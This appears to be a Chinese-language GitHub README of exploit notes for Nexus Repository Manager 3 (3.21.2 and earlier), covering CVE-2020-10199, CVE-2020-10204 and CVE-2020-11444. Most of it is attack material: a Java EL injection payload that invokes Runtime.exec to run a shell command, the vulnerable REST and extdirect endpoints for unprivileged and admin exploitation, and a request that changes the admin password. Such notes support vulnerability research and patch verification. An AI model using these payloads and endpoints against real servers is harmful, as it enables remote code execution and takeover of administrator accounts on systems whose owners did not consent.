 # Nexus Repository Manager 3 Vuln (影响版本：<= 3.21.2)

## CVE-2020-10199、CVE-2020-10204、CVE-2020-11444

## CVE-2020-10199 远程代码命令执行

## 回显poc

![](./CVE-2020-10199.gif)

## 不回显poc

`$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/cve-2020-10199')}`

## 普通用户权限
```
/service/rest/beta/repositories/go/group
```

## 需要管理员权限

1. 创建CleanupPolicy

`/service/extdirect`

2. 创建repositories

`/service/rest/beta/repositories/apt/hosted`

# CVE-2020-10204 远程代码命令执行

1. 利用更新用户接口
`/service/extdirect`
2. 利用创建角色接口
`/service/extdirect`

# CVE-2020-11444 越权漏洞

## 调用更新role接口

```
/service/rest/beta/security/users/admin/change-password

POST:
123456
```


# 参考链接

https://www.cnblogs.com/magic-zero/p/12641068.html

https://github.com/threedr3am/learnjavabug/tree/93d57c428333f98b5927d02630737e639dcb226b/nexus

